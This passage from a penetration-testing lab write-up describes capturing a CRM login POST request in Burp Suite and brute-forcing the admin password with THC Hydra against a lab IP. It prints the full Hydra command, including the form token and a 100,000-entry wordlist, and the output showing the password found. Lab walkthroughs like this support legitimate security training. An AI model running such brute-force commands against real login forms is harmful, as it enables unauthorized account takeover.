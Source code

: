 I decided to use [THC Hydra](http://tools.kali.org/password-attacks/hydra) for this attack. But before we can attack the CRM, the first thing that we need to do is capture the POST Request for the login. So, let's fire up [Burp Suite](https://portswigger.net/burp/) and capture the POST Login Request.

<a href="/images/ptl-10.png"><img src="/images/ptl-10.png"></a>

We can see that there is an additional field called "__\_\_vtrftk" in the POST request that will be necessary during our brute force attack.

Once we have gathered all that information, let's enter that into Hydra and fire away! For this attack I decided to use the 100,000 Passwords from [SecList](https://github.com/danielmiessler/SecLists/tree/master/Passwords).

```console
root@kali:~# hydra 192.168.101.10 -s 88 http-form-post "/index.php?module=Users&action=Login:__vtrftk=sid%3A1d24833a22417d1d4e19be2c43ff5021e2ff5a5a%2C1500076613&username=^USER^&password=^PASS^:Invalid username or password." -l admin -P /usr/share/wordlists/10_million_password_list_top_100000.txt -t 20 -o crm-attack.txt
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-07-14 19:13:45
[DATA] max 20 tasks per 1 server, overall 64 tasks, 100000 login tries (l:1/p:100000), ~78 tries per task
[DATA] attacking service http-post-form on port 88
[STATUS] 206.00 tries/min, 206 tries in 00:01h, 99794 to do in 08:05h, 20 active
[STATUS] 192.67 tries/min, 578 tries in 00:03h, 99422 to do in 08:37h, 20 active
[STATUS] 196.57 tries/min, 1376 tries in 00:07h, 98624 to do in 08:22h, 20 active
[STATUS] 197.87 tries/min, 2968 tries in 00:15h, 97032 to do in 08:11h, 20 active
[STATUS] 198.94 tries/min, 6167 tries in 00:31h, 93833 to do in 07:52h, 20 active
[STATUS] 198.72 tries/min, 9340 tries in 00:47h, 90660 to do in 07:37h, 20 active
[STATUS] 198.59 tries/min, 12511 tries in 01:03h, 87489 to do in 07:21h, 20 active
[STATUS] 198.42 tries/min, 15675 tries in 01:19h, 84325 to do in 07:05h, 20 active
[STATUS] 198.67 tries/min, 18874 tries in 01:35h, 81126 to do in 06:49h, 20 active
[STATUS] 198.63 tries/min, 22048 tries in 01:51h, 77952 to do in 06:33h, 20 active
[STATUS] 198.72 tries/min, 25237 tries in 02:07h, 74763 to do in 06:17h, 20 active
[STATUS] 198.82 tries/min, 28431 tries in 02:23h, 71569 to do in 05:60h, 20 active
[STATUS] 198.86 tries/min, 31619 tries in 02:39h, 68381 to do in 05:44h, 20 active
[88][http-post-form] host: 192.168.101.10   login: admin   password: blackstar
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-07-14 22:04:02
```
